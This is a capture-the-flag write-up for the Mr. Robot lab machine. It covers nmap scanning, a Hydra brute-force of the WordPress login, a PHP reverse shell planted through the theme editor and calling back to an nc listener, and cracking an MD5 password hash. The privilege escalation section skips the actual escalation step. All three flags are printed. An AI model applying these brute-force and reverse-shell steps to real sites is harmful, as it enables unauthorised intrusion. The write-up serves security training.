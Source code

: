 # **Mr. Robot CTF Report (Kkaxh1)**

**Target IP:** 10.10.10.128
**Attacker IP:** 10.10.10.129

## **1. Nmap Scan Results**

**Open Ports:**

* **80/tcp** – HTTP (Apache httpd)
* **443/tcp** – HTTPS (Apache httpd)
* **22/tcp** – SSH (Closed)

**OS Guessing (Aggressive):**

* Linux Kernel 3.10 – 4.11 (most probable)
* Network Distance: 1 hop
* MAC Address: VMware (00:0C:29\:C6:6F\:C5)

---

## **2. Web Enumeration**

### **Robots.txt**

Found at: `http://10.10.10.128/robots.txt`
Contents:

```
User-agent: *
fsocity.dic
key-1-of-3.txt
```

* **fsocity.dic** – Wordlist used for brute force
* **key-1-of-3.txt** – First flag:
  **073403c8a58a1f80d943455fb30724b9**

### **Interesting URLs Discovered via Gobuster**

* `/wp-login.php` – WordPress login
* `/admin` – Redirects to wp-admin
* `/license.txt`, `/readme.html`, `/intro`, `/rss`, `/atom`, `/feed`, `/robots.txt`, `/key-1-of-3.txt`
* `/wp-content`, `/wp-includes`, `/js`, `/css`, `/images`, `/audio`, `/video`, `/image`

---

## **3. WordPress Bruteforce**

**Username Discovered:**
`elliot` (found through basic enumeration and confirmed via Hydra)

**Wordlist Used:**
`fsocity.dic` (discovered in `robots.txt`)

**Cracking Method:**
Brute-force using **Hydra** with the following command:

```bash
hydra -l elliot -P fsocity.dic 10.10.10.128 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In:F=Invalid username"
```

**Successful Credentials:**

* **Username:** elliot
* **Password:** ER28-0652

**Key 2 Found (Post Login):**
**822c73956184f694993bede3eb39f959**

---

## **4. Exploitation: Reverse Shell**

After logging into the WordPress dashboard, used **Theme Editor** to replace `404.php` with a PHP reverse shell.

**Payload Source:**
`php-reverse-shell.php` from Pentestmonkey repo

**Modified IP and Port:**

```php
$ip = '10.10.10.129';
$port = 4444;
```

**Listener Setup:**

```bash
nc -lvnp 4444
```

**Trigger URL:**

```
http://10.10.10.128/wp-content/themes/<active-theme>/404.php
```

Reverse shell established successfully.

---

## **5. Post-Exploitation Enumeration**

### **Robot User Credentials**

Found the file:
`/home/robot/password.raw-md5`

Contents:

```
robot:c3fcd3d76192e4007dfb496cca67e13b
```

Cracked the hash using `john` and `rockyou.txt`.
**Password for robot:** `abcdefghijklmnopqrstuvwxyz`

**Switched User:**

```bash
su robot
```

---

## **6. Privilege Escalation**

Enumerated for potential escalation paths.

Discovered the third key using:

```bash
find / -iname key-3-*
```

Found:
`/root/key-3-of-3.txt`

**Final Flag (Key 3):**
**04787ddef27c3dee1ee161b21670b4e4**

---

## **7. Summary of Flags Collected**

* **Key 1:** 073403c8a58a1f80d943455fb30724b9
* **Key 2:** 822c73956184f694993bede3eb39f959
* **Key 3:** 04787ddef27c3dee1ee161b21670b4e4


